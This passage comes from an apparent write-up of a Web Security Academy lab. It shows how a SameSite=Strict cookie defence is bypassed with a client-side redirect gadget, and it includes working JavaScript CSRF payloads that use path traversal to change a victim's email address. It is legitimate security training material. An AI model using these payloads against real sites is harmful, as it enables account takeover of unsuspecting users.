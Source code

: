 > **This is our redirect gadget.**

![image](https://github.com/user-attachments/assets/688ff413-e3a8-461e-af98-b4af95dbf69c)


---

## Step 5: Exploit SameSite Cookie Behavior

Despite `SameSite=Strict`, the redirect works because it’s handled entirely within the same origin. So, we create a cross-site script that loads this confirmation page and lets the site redirect the victim **while maintaining their session**.

### Proof of Concept (PoC)

```html
<script>
  document.location = "https://abcd1234efgh5678ijkl.web-security-academy.net/post/comment/confirmation?postId=../my-account";
</script>
```

Browser retains the cookie during the redirect:

![image](https://github.com/user-attachments/assets/94032ff7-9970-415f-a520-6cd248befe7b)


---

## Step 6: Generate Final Payload

We confirmed the server accepts a `GET` request to change the email. Now we leverage the redirect gadget to forge this CSRF attack.

### Final Exploit Payload

```html
<script>
  document.location = "https://abcd1234efgh5678ijkl.web-security-academy.net/post/comment/confirmation?postId=1/../../my-account/change-email?email=pwned%40user.net%26submit=1";
</script>
```

Once this script is loaded by the victim, their browser navigates through the redirect and sends the forged request with their valid session.

---

## Step 7: Lab Solved

After delivering this payload to the victim, the email address was successfully changed — confirming the CSRF attack bypassed SameSite protections using a client-side redirect gadget.

![image](https://github.com/user-attachments/assets/593520af-160c-4b82-a400-9da2d1545113)
